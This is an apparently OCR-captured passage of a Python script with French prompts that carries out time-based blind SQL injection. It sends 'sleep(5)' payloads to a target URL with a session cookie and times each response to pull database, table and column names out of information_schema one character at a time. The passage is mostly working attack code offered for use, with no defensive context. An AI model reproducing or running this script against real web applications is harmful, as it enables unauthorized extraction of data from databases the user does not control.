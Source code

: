 ```python
                        i+=1
                        pass
                    else:
                        last_letter += chr(current_letter)
                        substr_increment += 1
                        column_name = last_letter              
                        print('[+] column_name:',column_name.lower())
                        i = 0

        except IndexError:
            print('Veuillez choisir un index valable')

def get_tables_name(url=URL, cookie=cookie, database=database_list):

    global table_list
    global user_choice_database

    [print('[',index_element,']: -> ',element) for index_element, element in enumerate(database_list)]
    
    user_choice_database = int(input('Quelle database voulez-vous analyser ? (index) : '))

    i = 0
    restart = 75
    last_letter=""
    table_name=""
    limit = 0
    substr_increment = 1

    while i < restart:
        for current_letter in range(33,122):
                payload=f"'-(select sleep(5) from dual where (select substr(table_name,1,{substr_increment}) from information_schema.tables where table_schema='{database[user_choice_database]}' limit {limit},1) ='{last_letter + chr(current_letter)}')-- -"
                response = requests.get(f"{url}{payload}&lt=food",cookies=cookie)
                response_time = response.elapsed.total_seconds()
                if(i > 75):
                    limit += 1
                    substr_increment = 1
                    last_letter=""
                    table_list.append(table_name.lower())
                    i = 0
                if(response_time < 5):
                    i+=1
                    pass
                else:
                    substr_increment += 1
                    last_letter += chr(current_letter)
                    table_name = last_letter              
                    print('[+] table_name:',table_name.lower(), end='')
                    i = 0
    for table in table_list:
        print(table)

def get_database(url=URL, cookie=cookie):

    global database_list

    db_name=""
    last_letter=""

    i = 0
    limit = 0
```